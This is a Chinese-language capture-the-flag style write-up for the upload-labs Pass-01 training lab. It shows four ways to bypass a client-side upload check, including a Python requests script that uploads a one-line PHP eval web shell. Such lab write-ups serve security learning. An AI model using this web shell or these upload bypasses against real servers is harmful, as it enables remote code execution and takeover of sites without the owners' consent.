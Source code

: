 **1、禁用 JavaScript**

使用扩展 `Disable JavaScript` 禁用 JavaScript 后直接上传 `fish.php`

![](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-04-28_19-49-06.77drecl2w4.webp)

**2、requests 请求模拟**

使用 Python 的 `requests` 模块进行模拟请求，绕过客户端检查

```python
import requests

url = "http://192.168.126.129/upload-labs-0.1/Pass-01/index.php"

files = {
    'upload_file': ('fish.php', '<?php @eval($_POST[\'fish\']) ?>')
}

data = {
    'submit': '上传'
}

headers = {
    'Referer': 'http://192.168.126.129/upload-labs-0.1/Pass-01/index.php',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0',
    'Origin': 'http://192.168.126.129',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
}

response = requests.post(url, headers=headers, files=files, data=data)

with open('response_text/upload-labs-less01.html', 'w', encoding='utf-8') as f:
    f.write(response.text)

print('Success')
```

**3、劫持请求修改文件后缀**

将 `fish.php` 的后缀名修改为 `.jpg` 进行上传，绕过客户端检查后劫持请求，将 `filename=fish.jpg` 修改为 `filename=fish.php`

![](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-04-28_19-42-23.9kgdvjq8af.webp)

**4、复制 html 到本地修改**

将整个 `html` 代码复制到本地，删除 `javascript` 部分的内容，为 `form` 添加 `action` 属性（表单提交数据的目标地址），直接提交 `fish.php`

```html
<form action="http://192.168.126.129/upload-labs-0.1/Pass-01/index.php" enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
  <p>请选择要上传的图片：</p>
  <p>
    <input class="input_file" type="file" name="upload_file">
    <input class="button" type="submit" name="submit" value="上传"></p>
</form>
```
